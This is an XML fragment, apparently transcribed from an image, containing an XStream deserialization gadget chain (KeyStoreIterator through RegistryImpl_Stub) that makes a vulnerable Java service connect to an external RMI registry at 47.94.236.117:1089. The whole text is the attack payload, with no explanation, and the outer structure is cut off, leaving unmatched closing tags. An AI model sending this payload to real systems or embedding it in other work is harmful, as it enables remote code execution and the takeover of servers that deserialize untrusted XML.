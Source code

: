 ```xml
<nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>

<aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>

<candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>

<names>

<string>aa</string>

<string>aa</string>

</names>

<ctx>

<environment/>

<registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>

<java.rmi.server.RemoteObject>

<string>UnicastRef</string>

<string>47.94.236.117</string>

<int>1089</int>

<long>0</long>

<int>0</int>

<long>0</long>

<short>0</short>

<boolean>false</boolean>

</java.rmi.server.RemoteObject>

</registry>

<host>47.94.236.117</host>

<port>1089</port>

</ctx>

</candidates>

</aliases>

</nullIter>

</sm>

</message>

</value>

</javax.naming.ldap.Rdn_-RdnEntry>

```